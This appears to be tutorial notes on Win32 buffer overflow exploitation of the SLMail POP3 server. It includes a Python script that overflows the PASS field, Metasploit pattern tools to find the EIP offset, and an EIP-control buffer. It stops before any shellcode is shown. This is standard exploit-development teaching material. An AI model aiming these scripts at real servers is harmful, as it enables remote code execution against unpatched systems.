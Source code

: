 # Win32 Buffer Overflow Exploitation

### Replicating the Crash

  - Our first task in the exploitation process is to write a simple script that will replicate our observed crash, without having to run the fuzzer each time.

    ```python
    #!/usr/bin/python
    import socket s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    buffer = 'A' * 2700
    try:
      print "\nSending evil buffer..."
      s.connect(('10.0.0.22',110))
      data = s.recv(1024)
      s.send('USER username' +'\r\n')
      data = s.recv(1024)
      s.send('PASS ' + buffer + '\r\n')
      print "\nDone!."
    except:
      print "Could not connect to POP3!"
    ```
### Controlling EIP

  - Getting control of the EIP register is a crucial step of exploit development.

  - For this reason, it is vital that we locate those
  4 A’s that overwrite our EIP register in the buffer.
  - There are two common ways to do this:

    #### Binary Tree Analysis

      - Instead of 2700 A’s, we send 1350 A'ʹs and 1350 B'ʹs.
      - If EIP is overwritten by B'ʹs, we know the four bytes reside in the second half of the buffer.
      - We then change the 1350 B'ʹs to 675 B'ʹs and 675 C'ʹs, and send the buffer again.
      - If EIP is overwritten by C'ʹs, we know that the four bytes reside in the 2000–2700 byte range.
      - We continue splitting the specific buffer until we reach the exact four bytes that overwrite EIP.
      - Mathematically, this should happen in seven iterations.

    #### Sending a Unique String

      - The faster method of identifying these four bytes is to send a unique string of 2700 bytes, identify the 4 bytes that overwrite EIP, and then locate those four bytes in our unique buffer.
      - __pattern_create.rb__ is a Ruby tool for creating and locating such buffers, and can be found as part of the Metasploit Framework exploit development scripts.

        ```shell
        > locate pattern_create
        > /usr/share/metasploit-framework/tools/patte_create.rb 2700
        ```
      - We can now use the companion to pattern_create, pattern_offset.rb, to discover the offset of these specific 4 bytes in our unique byte string.
      ![EIP Overwritten by the Unique Pattern](/images/34.png)

        ```shell
        # whe got 39694438 after Plugging the previous unique buffer instead of our 2700 A’s into our Python exploit produces an EIP overwrite with offset 39694438
        > /usr/share/metasploit-framework/tools/pattern_offset.rb 39694438
        # running resutl :[*] Exact match at offset 2606
        ```
        - The pattern_offset.rb script reports these 4 bytes being located at offset 2606 of the 2700 bytes.
        - Let’s translate this to a new modified buffer string, and see if we can control the EIP register. We modify our exploit to contain the following buffer string

          ```python
          buffer = "A" * 2606 + "B" * 4 + "C" * 90
          ```

        - Sending this new buffer to the SLMail POP3 server produces the following crash in our debugger. Once again, take note of the ESP and EIP registers.
        - This time, the ESP has a different value than our first crash. The EIP register is cleanly overwritten by B’s (\x42), signifying that our calculations were correct, and we can now control the execution flow of the SLMail application.

      - Where, exactly, do we redirect the execution flow, now that we control the EIP register?
      - Part of our buffer can contain the code (or shellcode) we would like to have executed by the SLMail application, such as a reverse shell.

### Locating Space for Your Shellcode

  - The Metasploit Framework can automatically generate shellcode payloads.
  - A standard reverse shell payload requires about 350-400 bytes of space.
  - Looking back at the last crash, we can see that the ESP register points directly to the beginning of our buffer of C’s.
